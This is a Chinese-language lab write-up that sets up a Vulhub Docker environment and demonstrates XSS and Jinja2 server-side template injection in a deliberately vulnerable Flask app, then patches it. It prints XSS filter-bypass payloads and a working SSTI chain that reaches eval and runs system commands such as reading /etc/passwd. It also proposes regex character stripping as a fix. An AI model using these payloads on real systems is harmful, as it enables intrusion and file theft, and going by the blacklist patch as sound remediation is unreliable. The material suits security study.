 #### 环境配置
1. 查看Vulhub文档，按照上面的方法配置
2. 执行下列命令时出错，显示网络问题
```
curl -s https://bootstrap.pypa.io/get-pip.py | python3
```
* 注意：用apt get安装的pip会显示为8.1.1版本，不可使用，需要更新，然而更新要用pip --upgrade pip命令，所以建议用下列方法安装pip

3. 用下列命令下载到本地后再运行脚本（网络不稳定，有时候会失败，再次运行即可）

* [参考链接](https://segmentfault.com/q/1010000007632080)

```
wget -s https://bootstrap.pypa.io/get-pip.py
sudo python3 get-pip.py
```
4. 安装docker时会要权限，记得加sudo
```
sudo pip install docker-compose  
```
5. 错误
```
docker 3.4.1 has requirement requests!=2.18.0,>=2.14.2, but you'll have requests 2.9.1 which is incompatible.
```
6.提示request和docker-compose版本不符，重新安装request与docker-compose模块，错误信息消失

![image](1.png)

[参考链接](https://github.com/docker/compose/issues/3688)
```
sudo pip uninstall requests
sudo pip install requests
sudo pip uninstall docker-compose
sudo pip install docker-compose
```
7. 下载github上的文件后用docker构建环境

出现错误
```
ERROR: Couldn't connect to Docker daemon at http+docker://localhost - is it running?

If it's at a non-standard location, specify the URL with the DOCKER_HOST environment variable.
```
解决方法：[参考链接](http://blog.51cto.com/skytina/2044757)
```
 sudo docker-compose build
```


8. 再次出现提示
```
You are using pip version 9.0.1, however version 10.0.1 is available.
You should consider upgrading via the 'pip install --upgrade pip' command.
```
9. 再次运行命令，成功搭建docker环境

![image](2.png)

#### 源代码
```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')
    t = Template("Hello  " + name)
    return t.render()
if __name__ == "__main__":
    app.run()

```
1. 经过测试，xss和python都可以进行攻击
2. 修改代码
```python

from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')
    t = Template("Hello  " + name)
    #return t.render()
    return name
if __name__ == "__main__":
    app.run()
```
3. 发现python与xss的漏洞返回时执行
```python
    return t.render()
```

#### xss注入
[参考链接](https://blog.csdn.net/b954960630/article/details/78705512)
1. <script>alert("1")</script>
```html
<script>alert("1")</script>
```


2. 当过滤<script>标签时：标签中大小写不影响执行

```html
<sCript>alert("hey!")</scRipt>
```

3. <script>标签被完全过滤:（图片地址不存在，输出错误信息）
```html
<img src='0.0' onerror='alert("1")'> 
```
4. 通过编码绕过标签过滤
```html
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```
#### python的下划线
* [Python的下划线](https://blog.csdn.net/lansatiankongxxc/article/details/78730040)
* [Flask（Jinja2） 服务端模板注入漏洞](https://blog.csdn.net/lansatiankongxxc/article/details/78764726)

* 想要在模板中直接调用内置模块os，即需要在模板环境中对其注册，需要在代码里加一句：
```
t.globals['os'] = os
```
* 如果没有加这一句，直接使用os中的方法会报错。在未注册os模块的情况下，想在模板中调用 popen()函数执行系统命令，这就用到python的各种下划线函数了。

![image](3.png)

* 通过这种方法，可以访问到很多其他模块，其中也包括os模块

#### 非最高权限的任意代码执行
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
* 由于没有对用户输入进行处理，name中包含的代码会直接在模板中执行，而上面的代码可以利用python执行系统命令
```
{{ b['eval']('__import__("os").popen("id").read()') }}
```
popen中的参数就是系统命令

1. 获取id：popen("id")

![image](4.png)

2. 文件遍历：popen("ls /etc/")

![image](5.png)

3. 任意文件读取:popen("cat /etc/passwd")

![image](6.png)

#### 漏洞缓解

* 用python做了端口转发，将8001端口的请求转发到8000，并在过程中对数据做了处理

* [python代码](zhuanfa.py)

* 关键代码
```python
data = self.source.recv(1024)
s=data.decode('ascii')
s=re.sub("[<([{_})>'\"\]]*","",s)
data=s.encode('ascii')
```
* 效果

![image](7.png)

![image](8.png)


#### 漏洞修补
1. 用re模块过滤特殊字符
```python
from flask import Flask, request
from jinja2 import Template

import re

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')
    name=re.sub("[<([{_})>.'\"\]/]*","",name)
    t = Template("Hello  "+name)

    return t.render()
    #return name
if __name__ == "__main__":
    app.run()
```
* 关键代码
```
name=re.sub("[<([{_})>.'\"\]/]*","",name)
```

* 验证效果

![image](9.png)

![image](10.png)